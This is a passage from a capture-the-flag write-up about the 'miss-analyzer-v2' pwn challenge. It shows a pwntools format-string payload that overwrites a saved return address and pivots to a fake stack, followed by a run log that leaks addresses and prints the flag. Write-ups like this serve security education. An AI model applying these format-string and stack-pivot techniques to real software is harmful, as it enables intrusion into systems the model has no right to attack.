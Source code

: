Finally, to trigger the chain, we need to overwrite the saved RIP and stack
pivot to our fake stack. From the stack leak earlier, we can determine the saved
RIP of the current stack frame in GDB, and place the following chain there:

```python
target_rip = stack_leak + 0x1218

payload = construct_payload(
    fmtstr_payload(16, {
        0x404060: ret, # movaps
        target_rip: pop_rsp,
        target_rip+0x8: fake_stack
    }, write_size="short")
)
p.send(payload)
```

With this, we're done with the challenge!

```ansi
[1m[32m●[0m [36mcomp/2025-H0/osuctf/miss-analyzer-v2/dist[39m
[36m$[39m [38;5;14m: [36mpython3[39m [1m[32msolve.py[0m
[[1m[34m*[0m] '/home/samuzora/ctf/comp/2025-H0/osuctf/miss-analyzer-v2/dist/analyzer_patched'
    Arch:       amd64-64-little
    RELRO:      [33mPartial RELRO[39m
    Stack:      [32mCanary found[39m
    NX:         [32mNX enabled[39m
    PIE:        [31mNo PIE (0x3fe000)[39m
    RUNPATH:    [31mb'./lib'[39m
    SHSTK:      [32mEnabled[39m
    IBT:        [32mEnabled[39m
    Stripped:   [31mNo[39m
[[1m[34m*[0m] '/home/samuzora/ctf/comp/2025-H0/osuctf/miss-analyzer-v2/dist/lib/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      [33mPartial RELRO[39m
    Stack:      [32mCanary found[39m
    NX:         [32mNX enabled[39m
    PIE:        [32mPIE enabled[39m
    SHSTK:      [32mEnabled[39m
    IBT:        [32mEnabled[39m
    Stripped:   [31mNo[39m
    Debuginfo:  [31mYes[39m
[[1m[34m◐[0m] Opening connection to miss-analyzer-v2.challs.sekai.team on port 1337: Trying 34.38
[[1m[32m+[0m] Opening connection to miss-analyzer-v2.challs.sekai.team on port 1337: Done
target_rip = 7ffc2e8b72c8
libc.address = 7d50a25f0000

... (a lot of spam from the printfs)



                                        \x10aaa`@@
Miss count: 1
Yep, looks like you missed.
=~=~=~=~=~=~=~=~=~=~=

osu{fmtstr_in_the_b1g_2025}[[1m[34m*[0m] Got EOF while reading in interactive
```

---